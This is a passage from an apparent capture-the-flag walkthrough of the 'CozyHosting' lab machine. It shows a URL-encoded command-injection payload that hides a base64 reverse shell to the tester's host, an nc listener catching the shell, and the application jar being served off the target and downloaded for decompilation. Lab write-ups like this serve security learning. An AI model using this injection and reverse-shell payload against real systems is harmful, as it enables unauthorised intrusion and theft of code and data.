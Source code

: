 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
%3becho${IFS%25%3f%3f}"YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY%2bL2Rldi90Y3AvMTAuMTAuMTQuNTkvMTIzNCA8JjEnCg%3d%3d"${IFS%25%3f%3f}|${IFS%25%3f%3f}base64${IFS%25%3f%3f}-d${IFS%25%3f%3f}|${IFS%25%3f%3f}bash%3b
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Start listening on port 1234 using *nc* and send the execute the reverse shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.59] from (UNKNOWN) [10.129.62.54] 45018
bash: cannot set terminal process group (999): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


There's a jar file which we can download and debug

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
app@cozyhosting:/app$ ls
ls
cloudhosting-0.0.1.jar
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Start a python http server and download the file to your machine

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
app@cozyhosting:/app$ python3 -m http.server 1111
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/CozyHosting/files]
└─$ wget http://cozyhosting.htb:1111/cloudhosting-0.0.1.jar
--2023-11-15 10:14:09--  http://cozyhosting.htb:1111/cloudhosting-0.0.1.jar
Resolving cozyhosting.htb (cozyhosting.htb)... 10.129.62.54
Connecting to cozyhosting.htb (cozyhosting.htb)|10.129.62.54|:1111... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60259688 (57M) [application/java-archive]
Saving to: ‘cloudhosting-0.0.1.jar’

cloudhosting-0.0.1.jar                             100%[================================================================================================================>]  57.47M  2.12MB/s    in 18s     

2023-11-15 10:14:27 (3.28 MB/s) - ‘cloudhosting-0.0.1.jar’ saved [60259688/60259688]

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Use JD-GUI to decompile the *jar* file and read the source code.
*Java Decompiler* will open a GUI.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/CozyHosting/files]
└─$ jd-gui cloudhosting-0.0.1.jar                                                
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
